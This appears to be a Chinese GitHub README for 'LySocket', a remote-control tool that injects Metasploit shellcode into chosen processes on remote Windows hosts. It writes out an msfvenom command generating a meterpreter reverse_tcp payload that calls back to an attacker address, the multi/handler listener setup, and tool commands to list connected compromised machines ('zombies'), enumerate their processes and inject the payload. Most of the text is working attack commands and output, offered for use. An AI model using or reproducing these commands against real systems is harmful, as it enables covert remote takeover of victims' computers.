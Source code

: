 # LySocket 远程ShellCode种植远控

<br>

<div align=center>

![logo](https://user-images.githubusercontent.com/52789403/191662936-77e48078-82ed-4d9b-8ae2-c1df303ed5aa.png)

</div>

<br>

LySocket 是一款使用纯 `WindowsAPI` 实现的命令行版远程控制工具，该工具通过最少的代码实现了套接字的批量管理操作，用户可以指定对远程主机内特定进程注入`ShellCode`攻击载荷，只要对端`LyClient`客户端能一直运行，则`Metasploit`攻击载荷就可以很方便的注入到目标主机任意的进程内反弹。

首先需要通过`Metasploit`工具生成一个有效载荷。
```
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置，使用时需要与载荷的位数相对应。
```
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

 - 输出当前在线的客户端列表

命令`ShowSocket`可输出当前有多少肉鸡上线了，用于确定对端IP地址，该套接字列表程序内会自动维护，如果客户端下线则Socket套接字将会被清理。
```C
[ LySocket ] # ShowSocket
--------------------------------------------------------------------
索引             客户端地址              端口            状态
--------------------------------------------------------------------
0                127.0.0.1               1763            Open
1                127.0.0.1               1806            Open
2                127.0.0.1               1807            Open
3                127.0.0.1               1808            Open
--------------------------------------------------------------------
```

 - 获取客户端进程列表

命令`GetProcessList`可用于得到对段主机内有哪些进程正在运行，这是注入代码的前提条件。
```C
[ LySocket ] # GetProcessList --address 127.0.0.1
--------------------------------------------------------------------
索引             进程PID                 进程位数                进程名
--------------------------------------------------------------------
0                4       x64             System
1                124     x64             Registry
2                568     x64             smss.exe
3                856     x64             csrss.exe
4                956     x64             wininit.exe
5                964     x64             csrss.exe
6                80      x64             services.exe
7                484     x64             lsass.exe
8                564     x64             winlogon.exe
9                672     x64             svchost.exe
10               1060    x64             fontdrvhost.exe
11               1068    x64             fontdrvhost.exe
12               1100    x64             WUDFHost.exe
--------------------------------------------------------------------
```

 - 注入ShellCode到指定进程内

使用如下命令注入ShellCode到特定进程内，此时`Metasploit`即可看到反弹的后门了。
```C
[ LySocket ] # InjectRemoteCode --address 127.0.0.1 --pid 1234 --shellcode xfec12defferciruq
[+] Success..
```
